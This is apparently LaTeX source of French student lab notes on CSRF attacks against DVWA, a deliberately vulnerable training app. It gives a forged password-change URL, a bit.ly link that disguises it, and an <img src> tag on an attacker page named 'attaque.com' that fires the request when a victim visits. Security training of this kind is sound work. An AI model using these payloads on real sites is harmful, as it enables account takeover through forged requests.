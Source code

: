 \documentclass[a4paper]{article}
\begin{document}
\section{Labo 7 -- DVWA (2)}





\begin{itemize}


\item URL shortener:
\begin{example} \begin{itemize}
    \item url pour changer de mdp:
\begin{example} \begin{verbatim}
http://192.168.1.13/DVWA/vulnerabilities/csrf/?password_new=tttttt
    &password_conf=tttttt&Change=Change#
\end{verbatim} \end{example}
    \item lien bitly: \texttt{https://bit.ly/3tE2RkW}
    \item cliquer sur \textit{test credentials} (login = admin) pour vérifier que le mdp a bien changé
\end{itemize} \end{example}


\item IMG SRC:
\begin{example} \begin{itemize}
    \item modifier le fichier \textit{index.html} de \texttt{attaque.com}:
\begin{example} \begin{verbatim}
<h1> Welcome ù_ú </h1>
<img src="https://bit.ly/3tE2RkW">
\end{verbatim} \end{example}
    \item aller sur \texttt{attaque.com}
    \item tester le changement de mot de passe
\end{itemize} \end{example}



\end{itemize}
\end{document}
